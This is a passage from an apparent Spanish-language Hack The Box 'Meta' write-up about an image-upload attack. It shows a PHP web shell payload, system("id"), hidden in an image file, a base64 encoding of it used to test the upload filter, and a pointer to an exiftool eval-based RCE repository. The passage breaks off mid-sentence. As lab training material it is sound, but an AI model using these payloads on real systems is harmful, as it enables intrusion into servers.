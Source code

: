 ```bash
Pixel Units                     : meters
Image Size                      : 576x38
Megapixels                      : 0.022
```

Si tratamos de subir una imagen con contenido `php` pasa esto 

```bash
❯ catn image.png
<?php system("id"); ?>
```

![](/assets/images/htb-writeup-meta/web8.png)

Si lo convertimos a `base64` para ver ahora que pasa

```bash
❯ echo "<?php system("id"); ?>" | base64
PD9waHAgc3lzdGVtKGlkKTsgPz4K
```

```bash
❯ catn image.png
PD9waHAgc3lzdGVtKGlkKTsgPz4K
```

Nos lo sigue detectando

![](/assets/images/htb-writeup-meta/web9.png)

Bueno después de estar buscando información en Internet de como convertir un **imagen** a un **RCE** aprovechándonos de `exiftool` encontré este repositorio el cual me dio buenos resultados básicamente se están aprovechando de una versión desactualizada de `exiftool` y esta usando la opción `eval` que sirve para ejecutar una expresión evaluada  <https://github.com/OneSecCyber/JPEG_RCE> después de seguir los pasos y subir la imagen que creo paso esto 
